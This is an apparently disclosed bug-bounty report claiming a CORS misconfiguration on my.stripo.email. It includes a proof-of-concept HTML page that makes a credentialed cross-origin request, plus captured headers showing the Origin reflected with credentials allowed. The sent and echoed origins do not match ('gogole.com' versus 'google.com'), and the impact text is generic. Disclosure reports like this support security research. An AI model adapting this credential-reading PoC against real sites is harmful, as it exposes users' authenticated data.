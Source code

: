# CORS on my.stripo.email

## Report Details
- **Report ID**: 859688
- **URL**: https://hackerone.com/reports/859688
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-04-26T14:00:34.052Z
- **Disclosed**: 2020-04-28T14:35:13.426Z

## Reporter
- **Username**: nihadp
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: stripo

## Vulnerability Information
Hey Team i don't know if it's valid or not i just want to let you know about this thanks.

following the HTML File ..

<html>
<script>
var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://my.stripo.email/cabinet/stripo-ws/v1/stripo-websocket/info?t=1587908666898',true); req.withCredentials = true; req.send('{}'); function reqListener() { alert(this.responseText); };
</script>
</html>

#the Request

`GET /cabinet/stripo-ws/v1/stripo-websocket/info?t=1587908666898 HTTP/1.1
Host: my.stripo.email
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: https://my.stripo.email/cabinet/`

#Response

HTTP/1.1 200 
Server: nginx
Date: Sun, 26 Apr 2020 13:57:50 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
Vary: Accept-Encoding
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Cache-Control: no-store, no-cache, must-revalidate, max-age=0
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: sameorigin
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Length: 77

{"entropy":750465027,"origins":["*:*"],"cookie_needed":true,"websocket":true}

After i added `origin: https://gogole.com` on __Request__ 

the #Resposne

`HTTP/1.1 200 
Server: nginx
Date: Sun, 26 Apr 2020 14:00:03 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
Vary: Accept-Encoding
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: https://google.com
Access-Control-Allow-Credentials: true
Cache-Control: no-store, no-cache, must-revalidate, max-age=0
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: sameorigin
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Length: 78

{"entropy":-717493192,"origins":["*:*"],"cookie_needed":true,"websocket":true}`

## Impact

As with superpowers, it’s all about knowing how to use it. Therefore, CORS is not necessarily a bad thing. We’ve seen in many cases that CORS has legitimate use, and this is why it was invented and made a web standard in the first place. However, you need to be aware of the CORS configuration you set up in your server and the side effects this has on security.

## Attachments
- w.html
